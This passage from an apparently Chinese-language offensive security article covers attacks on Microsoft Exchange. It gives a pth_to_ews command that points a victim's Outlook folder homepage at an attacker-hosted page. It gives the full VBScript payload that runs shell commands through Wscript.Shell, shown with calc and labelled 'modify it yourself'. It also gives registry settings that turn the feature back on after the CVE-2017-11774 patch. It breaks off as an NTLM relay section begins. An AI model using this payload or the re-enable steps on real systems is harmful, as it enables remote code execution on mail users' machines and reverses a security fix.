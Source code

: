 2.[pth_to_ews.exe](https://github.com/pentest-tools-public/Pass-to-hash-EWS)

```
pth_to_ews.exe https://MAIL/ews/exchange.asmx -U daiker -P 密码 -Purl http://VPS:9090/aa.html -Type Set
```

HomePage 的内容是

```
&lt;html&gt;
&lt;head&gt;
&lt;meta http-equiv="Content-Language" content="en-us"&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1252"&gt;
&lt;title&gt;Outlook&lt;/title&gt;
&lt;script id=clientEventHandlersVBS language=vbscript&gt;
&lt;!--
 Sub window_onload()
     Set Application = ViewCtl1.OutlookApplication
     Set cmd = Application.CreateObject("Wscript.Shell")
     cmd.Run("calc")
 End Sub
--&gt;

&lt;/script&gt;
&lt;/head&gt;

&lt;body&gt;
 &lt;object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"&gt;&lt;/object&gt;
&lt;/body&gt;
&lt;/html&gt;
```

这个是弹计算器的 自行修改,

在2017 年 11 月安全更新修复,CVE-2017-11774

修复后 Homepage 默认关闭，重新启用：

```
[HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security] "EnableRoamingFolderHomepages"=dword:00000001

[HKEY_CURRENT_USER\Software\Policies\Microsoft\Office\16.0\Outlook\Security] DWORD: NonDefaultStoreScript Value Data: 1 (Hexadecimal) to enable.
```



## 0x08 NTLM_Relay

在之前的系列文章里面曾经说过ntlm_relay,ntlm_relay在Exchange上的应用也很广泛.

主要有以下几种攻击场景

### <a class="reference-link" name="1.%20%E6%99%AE%E9%80%9A%E7%94%A8%E6%88%B7relay%20%E5%88%B0ews%E6%8E%A5%E5%8F%A3"></a>1. 普通用户relay 到ews接口
